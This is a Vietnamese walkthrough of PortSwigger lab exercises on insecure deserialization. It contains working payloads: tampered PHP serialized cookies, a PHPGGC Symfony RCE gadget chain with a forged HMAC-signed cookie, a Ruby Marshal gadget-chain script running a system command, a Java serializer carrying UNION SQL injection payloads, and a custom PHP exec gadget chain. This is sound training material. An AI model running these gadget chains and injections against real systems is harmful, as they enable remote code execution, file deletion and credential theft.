# Insecure Deserialization - Portswigger


## Lab: Modifying serialized objects

Đăng nhập bằng tài khoản của bạn. Quan sát request `GET /my-account` sau khi đăng nhập có cookie session trông như đã được URL-encode và Base64-encode.

Trong Burp để xem cookie ở dạng đã decode. Bạn sẽ thấy cookie thực chất là một đối tượng PHP đã được serialize. Thuộc tính `admin` có giá trị `b:0 (boolean false)`. 



Chỉnh lại cookie: đổi thuộc tính admin từ `b:0 → b:1`. 
```php
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}
```

Quan sát response giờ có link tới `/admin`, chứng tỏ bạn đã truy cập với quyền admin.



Đổi path request thành `/admin` rồi gửi lại. Trang `/admin` sẽ có các link để xóa tài khoản người dùng cụ thể. Đổi path thành `/admin/delete?username=carlos` và gửi request để solve lab.




## Lab: Modifying serialized data types


Bắt request `GET /my-account` sau login. Nội dung sau decode cookie là PHP serialized object, chứa các field như: `username`, `access_token`




Sửa cookie thành:
```
username = "administrator" (và sửa đúng length trong serialize)
access_token = integer 0 ⇒ i:0 (không phải string)
```

Khi so sánh int với string bằng `==`, PHP (đặc biệt PHP 7.x/cũ hơn) sẽ ép string sang số. 
Nếu token thật là chuỗi không bắt đầu bằng chữ số (ví dụ "abcdef...") → khi ép sang số sẽ thành 0
⇒ điều kiện thành: `0 == 0` → true.

```php
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
```

Gửi request → thấy link `/admin` → vào `/admin` → xóa user carlos:
`/admin/delete?username=carlos`




## Lab: Using application functionality to exploit insecure deserialization

Đăng nhập vào tài khoản đã được cho. Trên trang My account, chú ý có tùy chọn xóa tài khoản bằng cách gửi request `POST /my-account/delete`.

Xem session cookie, object đã serialize có thuộc tính `avatar_link`, chứa đường dẫn file avatar.



Sửa dữ liệu serialized để `avatar_link` trỏ tới /`home/carlos/morale.txt.` và sửa độ dài length. 

```php
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"puav7ucs2mbn3at7qig7epw0gikrh6tg";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}
```

Đổi request line thành `POST /my-account/delete` rồi gửi, tài khoản sẽ bị xóa, đồng thời file `morale.txt` của Carlos cũng sẽ bị xóa.




## Lab: Arbitrary object injection in PHP

Đăng nhập bằng tài khoản của mình và xác nhận session cookie đang lưu PHP serialized object. 

```php
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"winss9kpl6h79xoh1a312obkd5htc7jb";}
```

Trong Site map, phát hiện ứng dụng tham chiếu tới file `/libs/CustomTemplate.php`.



Thêm ký tự `~` vào cuối đường dẫn (ví dụ `/libs/CustomTemplate.php~`) để đọc source code.

```php
<?php

class CustomTemplate {
    private $template_file_path;
    private $lock_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
        $this->lock_file_path = $template_file_path . ".lock";
    }

    private function isTemplateLocked() {
        return file_exists($this->lock_file_path);
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}

?>
```

Trong source, xác định class `CustomTemplate` có magic method `__destruct()` gọi `unlink()` với thuộc tính `lock_file_path` → dẫn tới xóa file theo đường dẫn này.

Trong PHP, unlink() là hàm xóa (delete) một file trên filesystem. 
- `unlink("/path/to/file")` → xóa file đó (nếu process có quyền).
- Nếu file không tồn tại / không đủ quyền → trả về false.

```php
function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
```


Tạo payload serialized cho object `CustomTemplate` với `lock_file_path` trỏ tới `/home/carlos/morale.txt`:


```php
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```

| Serialized | Ý nghĩa |
|---|---|
| `O:14:"CustomTemplate":1` | **Đối tượng (Object)**, tên lớp dài **14 ký tự** là `"CustomTemplate"`. Đối tượng này chứa **1 thuộc tính (member)** được serialize. |
| `s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";` | **Thuộc tính thứ nhất** có tên là chuỗi dài **14 ký tự** `"lock_file_path"`. **Giá trị** của thuộc tính này là chuỗi dài **23 ký tự** `"/home/carlos/morale.txt"`. |

Khi object được unserialize, `__destruct()` tự chạy và `unlink()` sẽ xóa `/home/carlos/morale.txt`.




## Lab: Exploiting PHP deserialization with a pre-built gadget chain

Với thông tin đăng nhập được cung cấp, tôi đăng nhập vào tài khoản wiener và kiểm tra phản hồi đăng nhập. Tôi gửi session cookie vào Decoder và URL-decode cookie.

```php
{"token":"Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ4bjV2bTdqc3Jnc3M4eGNzdzB5dHVjMWhyaHlyaDUxYyI7fQ==","sig_hmac_sha1":"9bf4a79e366f587405d823055094a5b0681d8177"}
```

Giá trị token trông giống một chuỗi base64-encoded, nên tôi decode tiếp base64. 

```
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ4bjV2bTdqc3Jnc3M4eGNzdzB5dHVjMWhyaHlyaDUxYyI7fQ==
```

```php
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"xn5vm7jsrgss8xcsw0ytuc1hrhyrh51c";}
```

Thử gửi request với cookie đã sửa sẽ bị exception vì chữ ký không còn khớp.



Error message cho biết website dùng Symfony 4.3.6

Khi xem qua các request/response, một comment HTML nổi bật:



Comment này gợi ý sự tồn tại của thư mục /cgi-bin/ và tệ hơn là file phpinfo.php. Nếu nó thực sự tồn tại trên hệ thống thật thì đây là một lộ lọt cực kỳ nghiêm trọng, vì trang phpinfo thường chứa rất nhiều thông tin giá trị.

Vì vậy tôi thử ngay xem file này có tồn tại không:




Tìm thấy phpinfo

Khi xem file, có một phần đặc biệt đáng chú ý: PHP variables:



Giờ tôi đã biết secret key, tôi có thể tạo token hợp lệ chứa dữ liệu tùy ý, ví dụ như các class serialize do tôi tự tạo.

Từ exception ở trên tôi biết framework được dùng là Symfony 4.3.6.

Vì vậy tôi tải PHP Generic Gadget Chains (PHPGGC) từ GitHub và xem các gadget chain cho Symfony bằng `phpggc --l`:



Có một gadget chain khớp đúng phiên bản là `Symfony/RCE4`, nên tôi sẽ dùng cái này.

```php
./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64 -w
```

Thu được:

```
Tzo0NzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxUYWdBd2FyZUFkYXB0ZXIiOjI6
e3M6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXFRhZ0F3YXJlQWRhcHRlcgBk
ZWZlcnJlZCI7YToxOntpOjA7TzozMzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQ2FjaGVJdGVt
IjoyOntzOjExOiIAKgBwb29sSGFzaCI7aToxO3M6MTI6IgAqAGlubmVySXRlbSI7czoyNjoicm0g
L2hvbWUvY2FybG9zL21vcmFsZS50eHQiO319czo1MzoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hl
XEFkYXB0ZXJcVGFnQXdhcmVBZGFwdGVyAHBvb2wiO086NDQ6IlN5bWZvbnlcQ29tcG9uZW50XENh
Y2hlXEFkYXB0ZXJcUHJveHlBZGFwdGVyIjoyOntzOjU0OiIAU3ltZm9ueVxDb21wb25lbnRcQ2Fj
aGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAcG9vbEhhc2giO2k6MTtzOjU4OiIAU3ltZm9ueVxDb21w
b25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAc2V0SW5uZXJJdGVtIjtzOjQ6ImV4ZWMi
O319Cg==
```

Lệnh này tạo ra một object serialize (Base64) dùng gadget chain RCE của Symfony để xóa `morale.txt` của Carlos.

Tạo một cookie hợp lệ chứa object độc hại và ký đúng bằng secret key vừa lấy.

```php
<?php
$object = "Tzo0NzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxUYWdBd2FyZUFkYXB0ZXIiOjI6e3M6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXFRhZ0F3YXJlQWRhcHRlcgBkZWZlcnJlZCI7YToxOntpOjA7TzozMzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQ2FjaGVJdGVtIjoyOntzOjExOiIAKgBwb29sSGFzaCI7aToxO3M6MTI6IgAqAGlubmVySXRlbSI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO319czo1MzoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcVGFnQXdhcmVBZGFwdGVyAHBvb2wiO086NDQ6IlN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcUHJveHlBZGFwdGVyIjoyOntzOjU0OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAcG9vbEhhc2giO2k6MTtzOjU4OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAc2V0SW5uZXJJdGVtIjtzOjQ6ImV4ZWMiO319Cg==";
$secretKey = "g4fjx22jyq56ta0l5gcp8vuw3h7sqiew";
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
echo $cookie;
```

Kết quả:

```
%7B%22token%22%3A%22Tzo0NzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxUYWdBd2FyZUFkYXB0ZXIiOjI6e3M6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXFRhZ0F3YXJlQWRhcHRlcgBkZWZlcnJlZCI7YToxOntpOjA7TzozMzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQ2FjaGVJdGVtIjoyOntzOjExOiIAKgBwb29sSGFzaCI7aToxO3M6MTI6IgAqAGlubmVySXRlbSI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO319czo1MzoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcVGFnQXdhcmVBZGFwdGVyAHBvb2wiO086NDQ6IlN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcUHJveHlBZGFwdGVyIjoyOntzOjU0OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAcG9vbEhhc2giO2k6MTtzOjU4OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAc2V0SW5uZXJJdGVtIjtzOjQ6ImV4ZWMiO319Cg%3D%3D%22%2C%22sig_hmac_sha1%22%3A%22cad3249bbd5c800843b298746c86db7c42e11818%22%7D
```


## Lab: Exploiting Ruby deserialization using a documented gadget chain

Khi login, sẽ thấy: 



- Giá trị session nhìn rất giống Base64 của Ruby Marshal (Marshal dump thường bắt đầu bằng bytes \x04\x08, khi Base64 hay ra prefix kiểu BAh...).

- Nghĩa là server đang làm kiểu: Marshal.load(Base64.decode64(cookie)) để lấy object session.

Tìm kiếm Universal Gadget trên google

Final exploit script

```ruby
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm -f /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")

n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts payload.inspect
#puts Marshal.load(payload)

puts "Payload (hex):"
puts payload.unpack('H*')[0]

require "base64"
puts "Payload (Base64 encoded):"
puts Base64.encode64(payload)
```

## Lab: Developing a custom gadget chain for Java deserialization


Login với accoun, server để lộ một file `AccessTokenUser.java` và đồng thời session cookie này lưu giá trị base64 encode của serialized data trong java





Access vào file này, ta thấy nó định nghĩa một class lưu `accessToken` ứng với `username`


```java
package data.session.token;

import java.io.Serializable;

public class AccessTokenUser implements Serializable
{
    private final String username;
    private final String accessToken;

    public AccessTokenUser(String username, String accessToken)
    {
        this.username = username;
        this.accessToken = accessToken;
    }

    public String getUsername()
    {
        return username;
    }

    public String getAccessToken()
    {
        return accessToken;
    }
}
```

Thử bug directory listing trên server, ta phát hiện thêm một file khác `ProductTemplate.java`

```java
package data.productcatalog;

import common.db.JdbcConnectionBuilder;

import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;
import java.sql.Connection;
import java.sql.ResultSet;
import java.sql.SQLException;
import java.sql.Statement;

public class ProductTemplate implements Serializable
{
    static final long serialVersionUID = 1L;

    private final String id;
    private transient Product product;

    public ProductTemplate(String id)
    {
        this.id = id;
    }

    private void readObject(ObjectInputStream inputStream) throws IOException, ClassNotFoundException
    {
        inputStream.defaultReadObject();

        JdbcConnectionBuilder connectionBuilder = JdbcConnectionBuilder.from(
                "org.postgresql.Driver",
                "postgresql",
                "localhost",
                5432,
                "postgres",
                "postgres",
                "password"
        ).withAutoCommit();
        try
        {
            Connection connect = connectionBuilder.connect(30);
            String sql = String.format("SELECT * FROM products WHERE id = '%s' LIMIT 1", id);
            Statement statement = connect.createStatement();
            ResultSet resultSet = statement.executeQuery(sql);
            if (!resultSet.next())
            {
                return;
            }
            product = Product.from(resultSet);
        }
        catch (SQLException e)
        {
            throw new IOException(e);
        }
    }

    public String getId()
    {
        return id;
    }

    public Product getProduct()
    {
        return product;
    }
}
```

File này định nghĩa class `ProductTemplate`, class này ghi đè hàm `readObject` -> khi được deserilize sẽ thực hiện thêm việc kết nối đến database và lấy về thông tin products

```sql
String sql = String.format("SELECT * FROM products WHERE id = '%s' LIMIT 1", id);
```

Sử dụng format string và biến id cũng là kiểu String => SQLi

Vậy việc còn lại là viết code java thực hiện việc serialized object của class `ProductTemplate` với id là payload SQLi



```java
import data.productcatalog.ProductTemplate;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.io.Serializable;
import java.util.Base64;

class Main {
    public static void main(String[] args) throws Exception {
        ProductTemplate originalObject = new ProductTemplate("<payload sqli>");

        String serializedObject = serialize(originalObject);

        System.out.println("Serialized object: " + serializedObject);

        ProductTemplate deserializedObject = deserialize(serializedObject);

        System.out.println("Deserialized object ID: " + deserializedObject.getId());
    }

    private static String serialize(Serializable obj) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream(512);
        try (ObjectOutputStream out = new ObjectOutputStream(baos)) {
            out.writeObject(obj);
        }
        return Base64.getEncoder().encodeToString(baos.toByteArray());
    }

    private static <T> T deserialize(String base64SerializedObj) throws Exception {
        try (ObjectInputStream in = new ObjectInputStream(new ByteArrayInputStream(Base64.getDecoder().decode(base64SerializedObj)))) {
            @SuppressWarnings("unchecked")
            T obj = (T) in.readObject();
            return obj;
        }
    }
}
```

Tiếp theo ta sẽ thực hiện SQLi attack thông qua tham số `id` thôi.

Xác định số cột

Sử dụng payload UNION-based để tìm số cột trả về.
```
' UNION SELECT NULL -- 
```

Compile và thực thi code, ta nhận được serialized object.



Truyền nó vào cookie session và gửi request, ta thấy có error trả về của Portgresql báo UNION phải có cùng số cột với query trước -> SQLi thành công



Tìm số cột cho đến khi UNION 8 cột.

```
' UNION SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL -- 
```

Error trả về khác, query trả về 8 cột



Ta sẽ đi tấn công Error Union-based SQLi

Test từng cột dạng String thì thấy cột thứ 4 thông báo lỗi

```
' UNION SELECT NULL, NULL, NULL, 'a', NULL, NULL, NULL, NULL -- 
```



Xác định table

```
' UNION SELECT NULL, NULL, NULL, CAST(table_name AS INTEGER), NULL, NULL, NULL, NULL FROM information_schema.tables -- 
```



Kết quả trả về bảng `users`

Xác định cột của bảng `users`

```
' UNION SELECT NULL, NULL, NULL, CAST(column_name AS INTEGER), NULL, NULL, NULL, NULL FROM information_schema.columns WHERE table_name='users' -- 
```

Kết quả trả về cột `username`



Tìm cột khác ngoài `username`

```
' UNION SELECT NULL, NULL, NULL, CAST(column_name AS INTEGER), NULL, NULL, NULL, NULL FROM information_schema.columns WHERE table_name='users' AND column_name NOT IN ('username')-- 
```



Ta tìm được cột `password`

Tìm username

```
' UNION SELECT NULL, NULL, NULL, CAST(username AS INTEGER), NULL, NULL, NULL, NULL FROM users -- 
```



Ta tìm được `username` là `administrator`

Tiếp tục tìm `password`



Ta tìm được `password` của `administrator` và đăng nhập để xóa user carlos.



## Lab: Developing a custom gadget chain for PHP deserialization

Đọc source HTML của trang ta tìm được một thông tin thú vị



Truy cập đường dẫn kèm theo trick `~` để ta xem được mã nguồn của file đó. Nội dung file đó như sau:

```php
<?php

class CustomTemplate {
    private $default_desc_type;
    private $desc;
    public $product;

    public function __construct($desc_type='HTML_DESC') {
        $this->desc = new Description();
        $this->default_desc_type = $desc_type;
        // Carlos thought this is cool, having a function called in two places... What a genius
        $this->build_product();
    }

    public function __sleep() {
        return ["default_desc_type", "desc"];
    }

    public function __wakeup() {
        $this->build_product();
    }

    private function build_product() {
        $this->product = new Product($this->default_desc_type, $this->desc);
    }
}

class Product {
    public $desc;

    public function __construct($default_desc_type, $desc) {
        $this->desc = $desc->$default_desc_type;
    }
}

class Description {
    public $HTML_DESC;
    public $TEXT_DESC;

    public function __construct() {
        // @Carlos, what were you thinking with these descriptions? Please refactor!
        $this->HTML_DESC = '<p>This product is <blink>SUPER</blink> cool in html</p>';
        $this->TEXT_DESC = 'This product is cool in text';
    }
}

class DefaultMap {
    private $callback;

    public function __construct($callback) {
        $this->callback = $callback;
    }

    public function __get($name) {
        return call_user_func($this->callback, $name);
    }
}

?>
```

Đây là định nghĩa của class CustomTemplate kèm theo các class phụ khác. Ta sẽ phân tích như sau:


Một DefaultMap object khi gọi đến một thuộc tính không tồn tại hay inaccessible thì `__get($name)` được gọi → `call_user_func($callback, $name)` được gọi.

Mặt khác, khi một serialized CustomTemplate object được deserialize:

- Hàm `__wakeup()` được gọi → Hàm `build_product()` được gọi
- Tại hàm `build_product()` khởi tạo một object `Product($default_desc_type, $desc)` → Hàm `__construct()` của class Product được gọi → `$desc->$default_desc_type` được gọi.

- Như vậy nếu như `$desc` là một `DefaultMap object` và `$default_desc_type` chính là tham số `$name` trong hàm `__get()`, thì $`desc->$default_desc_type` sẽ trở thành `call_user_func($callback, $default_desc_type)`;

- Và khi đó, nếu `callback` là 1 hàm như `eval` hay `exec`, ta có thể thực thi lệnh OS với câu lệnh chính là `$default_desc_type`.

Dựa vào đó ta có đoạn code tạo payload sau:

```php
<?php

class DefaultMap {
    public $callback;
}

class CustomTemplate {
    public $default_desc_type;
    public $desc;
}

$b = new DefaultMap();
$b->callback = "exec";

$a = new CustomTemplate();
$a->default_desc_type = "rm /home/carlos/morale.txt";
$a->desc = $b;

$payload = serialize($a);
print_r($payload);
?>

```

Thực thi đoạn code trên sẽ tạo ra một payload là một serialized CustomTemplate objectcậy, dẫn đến việc thực thi mã độc.

```php
O:14:"CustomTemplate":2:{s:17:"default_desc_type";s:26:"rm /home/carlos/morale.txt";s:4:"desc";O:10:"DefaultMap":1:{s:8:"callback";s:4:"exec";}}
```

Encode base64 payload trên và gán vào session cookie. Gửi request.



Vậy là ta đã solve được lab.